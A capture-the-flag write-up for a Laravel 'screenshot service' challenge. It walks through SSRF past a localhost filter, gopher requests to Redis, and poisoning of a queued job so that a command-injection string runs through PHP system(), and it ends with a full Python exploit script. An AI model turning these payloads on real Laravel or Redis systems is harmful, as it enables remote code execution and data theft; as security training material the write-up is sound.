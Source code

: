 ```yaml
---
tags:
  - web
---
```


# ScreenCrack

## Challenge description

New screenshot service just dropped! They talk alot but can they hack it?

## Solution

### First recon

Our flag is in a file in the application directory.

We have a **Laravel 10.6.2** application runing which homepage said:

**Users can view screenshots and the source code of any entered URL using the free web service ScreenCrack. To protect user privacy, our service deletes all screenshots and source files. Our primary goal is to protect users from malicious, shady, and fraudulent links.**

![](../../images/screen-crack-1.png)

We can pass an URL. Let's take a look what we can do with it.

We have two options linked to two different api endpoints:

- `/api/getss` - Get the URL screenshot using the web **"https://api.screenshotmachine.com/?key=6b76b2&dimension=1024x768&url=".$url** and creates a temporally png file with a random name inside **/www/public/ss/** path
- `/api/get-html` - Made a request to the URL, read the response and add a txt file with page content inside **/www/public/src/** path and render inside a iframe

Additionally there is a job that delete generated files after some time using the next code.

```php
public function deleteFile()
{
    $filepath = $this->buildFilePath();
    system("echo '".$this->uuid."'>>halo");
    system("rm ".$filepath);
}
```

In local we can see the uuids removed by the job.

![](../../images/screen-crack-2.png)

**Important:** All URLs are validated before send the request, so local URL aren't permited.

We have also a local Redis application up and running. Feels like we need to make some [SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#basic-information) tricks to communicate with Redis service.

### Localhost Bypass

I tried using HackTricks urls to bypass localhost but nothing helps.

After a while I found that some public domains resolves to 127.0.0.1 [Available Public Wildcard DNS Domains pointing to localhost (127.0.0.1)](https://gist.github.com/tinogomes/c425aa2a56d289f16a1f4fcb8a65ea65).
And using `fbi.com` as domain we get access to local application.

![](../../images/screen-crack-3.png)

Let's try to communicate with Redis service.

### Redis RCE

Looking how to communicate with redis service through SSRF we can found multiple post that use the `gopher` schema. If we test the INFO command of redis with the URL `gopher://fbi.com:6379/_%0D%0AINFO%0D%0Aquit%0D%0A` we received the response of Redis:

```
...
# Server
redis_version:7.0.15
redis_git_sha1:8cceef4b
redis_git_dirty:0
redis_build_id:b445ae7ca70219e7
redis_mode:standalone
os:Linux 6.8.11-arm64 aarch64
arch_bits:64
...
```

And using this python script we can create payloads sending to Redis and try to get our flag using some [LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion) technique.

```python
redis_cmd = """
INFO server
quit
"""
gopherPayload = "gopher://fbi.com:6379/_%s" % redis_cmd.replace('\r','').replace('\n','%0D%0A').replace(' ','%20')

print(gopherPayload)
```

I tried to use Redis to create a PHP webshell like [https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion) but we can't do this because Redis thrown error because `dir` and `dbfilename` config parameters cannot be changed.

Looking in the official forum discussion someone says that we need to use the Redis key values generated by Laravel application. If we check the values of the keys generated by the application, we found that the key values are the instances of `App/Jobs/rmFile`, including the properties.

```
{"uuid":"e65cb62f-5b72-4e6b-9cfd-5c2b91eaf47f","displayName":"App\\Jobs\\rmFile","job":"Illuminate\\Queue\\CallQueuedHandler@call","maxTries":null,"maxExceptions":null,"failOnTimeout":false,"backoff":null,"timeout":null,"retryUntil":null,"data":{"commandName":"App\\Jobs\\rmFile","command":"O:15:\"App\\Jobs\\rmFile\":1:{s:9:\"fileQueue\";O:21:\"App\\Message\\FileQueue\":3:{s:8:\"filePath\";s:45:\"\/src\/f046b9ac-710b-426d-bb21-d08669b3c96d.txt\";s:4:\"uuid\";s:36:\"f046b9ac-710b-426d-bb21-d08669b3c96d\";s:3:\"ext\";s:3:\"txt\";}}"},"id":"OyW8xxRT4ydRNEXlRhNDdpSDOoeoEtyH","attempts":0}
```

🤔 What if we change the uuid value to made a RCE excecution when app excetute `echo` command that we see previously. And yes, it worked.

![](../../images/screen-crack-4.png)

So, let's try to read the content of the flag exposed in a public directory, using the code `;mv /flag /www/public/src/flag.txt;echo` we can archieve it.

### Exploit

```python
#!/usr/bin/python3

import requests
import re
import time

HOST = 'http://94.237.62.79:46267'

try_again = False

cookies = {'laravel_session': 'eyJpdiI6IjFEck5qN2tqam9TSERHRThtZXdFY0E9PSIsInZhbHVlIjoiV3hpRWwraTBGWDI1bThBZHRFSU4wOGxDbkt4VnJNdStTUFQrSGMxZGE3MEN5eWVGMVluNm5EZHNCaTJWNmxFY2JOR3Brc1p6dURCNmg2OHRCbFI2UkZUS1Y2OHA0Zmx4U0ZSbXVtMkRVZkRKTFI3bWxPUjRINU9sSU83Q21obnMiLCJtYWMiOiJmODVmZDZjNzczZTBlOGU1OGUwM2QyY2RhZTBmMTBhZWQ5NmE4ODMyMGE0NWQyZTA4OWNjYzJiNGUyNjE0MGE4IiwidGFnIjoiIn0%3D'}


def send_redis_cmd(cmd):
    gopherPayload = "gopher://fbi.com:6379/_%s" % cmd.replace(
        '\r', '').replace('\n', '%0D%0A').replace(' ', '%20')

    res = requests.post(f'{HOST}/api/get-html',
                        json={'site': gopherPayload},
                        headers={'Content-Type': 'applcation/json'},
                        cookies=cookies
                        )
    response = res.json()
    txt_file = response['filename']

    return requests.get(f'{HOST}{txt_file}', cookies=cookies)


redis_cmd = """
rpop laravel_database_queues:default
quit
"""

res = send_redis_cmd(redis_cmd)

convertedInstance = None
try:
    code_to_exec = ';mv /flag /www/public/src/flag.txt;echo Done'
    instance_re = re.compile(r'({"uuid".*:0})')
    uuid_re = re.compile(
        r's:36:\\"[0-9a-f]{8}-[0-9a-f]{4}-[0-5][0-9a-f]{3}-[089ab][0-9a-f]{3}-[0-9a-f]{12}\\"')
    rmInstance = re.search(instance_re, res.text).group(0)
    convertedInstance = re.sub(
        uuid_re,
        f's:{len(code_to_exec)}:\\"{code_to_exec}\\"',
        rmInstance)
except:
    print("No instance saved. Try again")
    try_again = True

redis_replace_cmd = f"""
lpush laravel_database_queues:default '{convertedInstance}'
lrange laravel_database_queues:default 0 10
quit
"""

if convertedInstance is not None:
    res = send_redis_cmd(redis_replace_cmd)
else:
    print("Try again")
    try_again = True

print("Done. Waiting the cronjob...")

if not try_again:
    while True:
        print("Trying get flag value")
        r = requests.get(f'{HOST}/src/flag.txt', cookies=cookies)
        if r.status_code != 404:
            print(r.text)
            break
        time.sleep(60)

```
